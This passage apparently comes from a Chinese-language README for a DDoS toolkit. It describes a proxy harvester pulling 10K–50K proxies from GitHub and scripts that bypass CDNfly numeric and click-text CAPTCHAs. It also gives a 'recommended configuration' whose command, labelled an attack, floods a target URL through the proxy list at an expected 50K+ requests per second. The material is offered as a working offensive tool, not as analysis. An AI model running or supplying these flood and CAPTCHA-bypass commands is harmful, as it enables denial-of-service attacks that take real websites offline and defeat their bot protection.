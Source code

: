 **数据源**: 140+ GitHub 仓库  
**代理数量**: 10K - 50K  
**更新建议**: 每 6 小时运行一次

---

### 5. CDNfly 绕过工具

#### 数字验证码绕过

```bash
cd legacy/cdnfly_bypass/计算

# 编辑 code.py，修改目标 URL（第 13 行）
nano code.py

# 运行
python3 code.py

# 输出: 识别: 3+5=? | 计算: 8
```

#### 文字点选验证码绕过

```bash
cd legacy/cdnfly_bypass/困难文字点选

# 编辑 click.py，修改目标 URL（第 102 行）
nano click.py

# 运行
python3 click.py

# 输出: 点击点绘制完成
```

---

## 🎯 推荐配置

### 配置 1: 本地测试（轻量）

```bash
# 适用: 本地电脑（8核 16GB）

# 获取代理
node github_list.js

# 攻击
node floodernew.js GET "https://target.com" 60 8 90 proxies_all.txt

# 预期: QPS 50K+
```

---
